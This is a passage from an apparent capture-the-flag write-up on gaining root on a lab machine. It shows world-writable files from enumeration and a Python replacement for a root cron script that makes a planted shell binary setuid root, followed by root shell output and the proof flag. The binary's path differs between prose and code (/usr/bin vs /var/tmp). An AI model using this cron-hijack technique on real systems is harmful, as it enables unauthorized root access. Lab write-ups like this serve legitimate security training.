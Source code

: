 ### Weak Filesystem Permissions

The enumeration script identified the following world writable files: 

{% highlight bash %}
#########################################
## 777 Files                           ##
#########################################

/srv/ftp/lol.pcap
/var/tmp/cleaner.py.swp
/var/www/html/sup3rs3cr3tdirlol/roflmao
/var/log/cronlog
/lib/log/cleaner.py
{% endhighlight %}

### Enumeration Findings

/lib/log/cleaner.py was owned by root and executed by cron to clean out /tmp 

## Local Privilege Escalation

From the attacking machine I downloaded an suid bin (spawns a shell) to /usr/bin/suid on the target.

Exploiting the poor filesystem permissions, I swapped out the contents of /lib/log/cleaner.py for: 

{% highlight python %}
#!/usr/bin/env python
import os
import sys
try:
    os.system('chown root:root /var/tmp/suid; chmod 4777 /var/tmp/suid')
except:
    sys.exit()
{% endhighlight %}

### Got Root

Went to get a coffee, came back and reconnected after the annoying message. 

Executed my suid binary, got root. 

<section class="shellbox">
    <div class="unit golden-large code">
      <p class="title">Local Privilege Escalation</p>
      <div class="shell">
        <p class="line">
          <span class="prompt">root</span><span>:</span><span class="path">~</span><span>#</span>
          <span class="command">/var/tmp/suid<br></span>
        </p>
        <p class="line">
          <span class="prompt">root</span><span>:</span><span class="path">~</span><span>#</span>
          <span class="command">cat /root/proof.txt<br></span>
          <br>
          <span class="output">Good job, you did it!<br></span>
          <br>
          <span class="output">702a8c18d29c6f3ca0d99ef5712bfbdc<br></span>
        </p>
        <br>
        <p class="line">
          <span class="prompt">root</span><span>:</span><span class="path">~</span><span>#</span>
          <span class="command">id<br></span>
          <br>
          <span class="output">uid=0(root) gid=0(root) groups=0(root),1002(overflow)<br></span>